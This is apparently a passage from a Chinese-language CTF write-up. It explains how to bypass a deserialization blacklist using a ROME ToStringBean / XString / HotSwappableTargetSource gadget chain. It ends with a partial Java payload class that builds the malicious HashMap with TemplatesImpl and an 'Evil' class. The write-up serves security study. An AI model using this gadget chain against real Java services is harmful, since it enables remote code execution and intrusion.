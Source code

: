 继续跟进可以发现重写了resolveClass
![](https://img-blog.csdnimg.cn/00219cfb0259413cbd27ac7cadf8dd4c.png)

可以发现没有ban掉`ToStringBean`，而`ToStringBean`可以调用getter方法，说明我们需要找一个方法来调用到toString方法
具体可参考：[Java代码分析工具Tabby在CTF中的运用](https://mp.weixin.qq.com/s/u7RuSmBHy76R7_PqL8WJww)
可以看到给出了一条链
```
java.util.HashMap#readObject
java.util.HashMap#putVal
java.lang.Object#equals
com.sun.org.apache.xpath.internal.objects.XString#equals
```

可以看到HashMap的putVal方法调用了`key.equals(k)`
![](https://img-blog.csdnimg.cn/987faf75dabd47099751d70e570ebd19.png)

使用的是XString的equals方法
![](https://img-blog.csdnimg.cn/62effc16e92044c5b2c9cf3a68f4ba50.png)

但是前提是需要HashMap中key值的hashcode相同，找到`org.springframework.aop.target.HotSwappableTargetSource`类
![](https://img-blog.csdnimg.cn/53fde14c5bf14033943ae0b1ee1dde39.png)

使用HotSwappableTargetSource的hashcode方法时，返回的是相同的hashcode


最后的payload：
```java
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import org.springframework.aop.target.HotSwappableTargetSource;
import tools.Evil;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Rome_XString {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static HashMap makeXStringToStringTrigger(Object o) throws Exception {
        XString x = new XString("HEYO");
        return makeMap(new HotSwappableTargetSource(o), new HotSwappableTargetSource(x));
    }
    public static HashMap<Object, Object> makeMap (Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
```